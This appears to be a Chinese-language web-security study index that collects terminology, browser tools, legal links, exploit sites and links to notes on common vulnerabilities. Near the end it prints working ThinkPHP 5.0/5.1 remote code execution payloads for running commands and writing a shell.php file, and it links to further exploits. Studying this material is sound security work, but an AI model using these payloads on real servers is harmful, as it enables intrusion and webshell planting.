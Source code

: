 # web安全

## 安全的常用术语

- vul：vulnerable：漏洞
- payload：ShellCode中的主要功能代码
- POC：Proof ofConcept：漏洞证明
- EXP：Exploit：漏洞利用
- CVE漏洞编号：Common Vulnerabilities & Exposures 公开的漏洞
- XSS Cheat Sheet: xss备忘单

## 浏览器插件

- SwitchyOmega
- Shodan
- FOFA Pro View
- IP, DNS & Security Tools / HackerTarget.com
- wappalyzer
- XPath Helper
- 迅雷下载

## 网络安全法

- [中华人民共和国网络安全法](http://www.xinhuanet.com/politics/2016-11/07/c_1119867015.htm)
- [T00ls法律讲堂](https://www.t00ls.net/Law-articles.html)

## 网站

- [渗透师导航](https://www.shentoushi.top/)
- [exploit-db](https://www.exploit-db.com/)
- [hackthebox](https://www.hackthebox.eu/)
- [exp库](http://expku.com/)

## [信息收集](./1信息收集/信息收集.html)

## 常见漏洞

- [xss速查表](./2漏洞/xss速查表.html)
- [sql injection](./2漏洞/sql/sql注入进阶.html)
- [文件上传漏洞](./2漏洞/文件上传漏洞.html)
- [PHP反序列化](./2漏洞/PHP反序列化漏洞.html)
- [逻辑漏洞](./2漏洞/逻辑漏洞.html)

## 工具

- [nmap](./3工具/nmap.html)

## 通用漏洞

## ThinkPHP5.0和5.1版本远程代码执行分析

```poc
5.0版本POC（不唯一）:
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
命令执行：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=[系统命令]
文件写入：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][1]=<?php phpinfo();?>

5.1版本POC（不唯一）
?s=index/\think\Request/input&filter=phpinfo&data=1
命令执行：?s=index/\think\Request/input&filter=system&data=[系统命令]
文件写入：?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```

- [WinRAR目录穿越漏洞（CVE-2018-20250）](https://github.com/WyAtu/CVE-2018-20250)
- [IIS短文件漏洞](https://github.com/lijiejie/IIS_shortname_Scanner)